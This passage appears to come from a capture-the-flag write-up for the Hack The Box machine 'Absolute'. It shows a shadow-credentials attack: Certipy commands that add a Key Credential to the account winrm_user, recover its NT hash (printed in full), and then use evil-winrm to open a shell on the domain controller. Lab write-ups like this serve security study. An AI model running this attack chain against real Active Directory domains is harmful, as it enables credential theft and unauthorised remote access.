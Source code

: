 ##### Step 4: shadow cred attack
```bash
faketime '2023-11-21 22:53:00' certipy find -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip $IP -target dc.absolute.htb

faketime '2023-11-21 22:55:00' certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip $IP -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '7cf7db08-04a1-37f4-c9be-3693bc7ea117'
[*] Adding Key Credential with device ID '7cf7db08-04a1-37f4-c9be-3693bc7ea117' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '7cf7db08-04a1-37f4-c9be-3693bc7ea117' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```

Note: If you encounter problems at this stage, first of all verify that the user `m.lovegod` is still part of the Network Audit group using ldapsearch and after you verify that, ask for a new TGT for the user m.lovegod using the getTGT script.

I indeed encountered the issue, so I ran `kinit m.lovegod` again

```bash
faketime '2023-11-21 23:03:00' evil-winrm -i dc.absolute.htb -u winrm_user -r ABSOLUTE.HTB
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents>
```